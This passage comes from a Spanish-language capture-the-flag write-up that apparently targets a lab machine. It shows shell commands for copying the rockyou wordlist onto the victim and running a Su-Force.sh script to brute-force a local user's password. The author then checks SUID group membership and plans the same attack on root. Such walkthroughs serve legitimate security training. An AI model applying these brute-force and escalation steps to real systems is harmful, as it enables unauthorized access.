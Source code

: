 ```shell
head -n 500000 /usr/share/wordlists/rockyou.txt | xclip -selection clipboard
```

Ahora en la maquina victima haremos esto:

```shell
cd /tmp
nano rockyou.txt

#Dentro del nano
<PEGAMOS_EL_ROCKYOU_COPIADO>
```

Lo guardamos y utilizamos un script llamado `Su-Force.sh`, y lo vamos a utilizar de esta forma.

URL = [Download Su-Force.sh GitHub](https://github.com/Maalfer/Sudo_BruteForce/blob/main/Linux-Su-Force.sh)

```shell
bash Su-Force.sh punky rockyou.txt
```

Info:

```
Contraseña encontrada para el usuario punky: secret
```

Veremos que hemos encontrado la contraseña de dicho usuario llamada `secret` por lo que vamos a escalar a el.

```shell
su punky
```

Metemos como contraseña `secret` y veremos que seremos dicho usuario.

## Privilege Escalation

Si vemos a que grupo pertenecemos.

```shell
id
```

Info:

```
uid=1001(punky) gid=1001(punky) groups=1001(punky),100(users),1002(suidgroup)
```

Veremos que pertenecemos al grupo `suidgroup` justo uno de los permisos `SUID` que hemos visto antes, que seria de este binario.

```
/usr/local/bin/task_manager
```

Por lo que vamos a investigar que hace dicho binario.

Pero despues de un rato no encontraremos nada, por lo que no nos queda otra que probar fuerza bruta con el usuario `root` de la misma forma que hicimos con el anterior usuario.
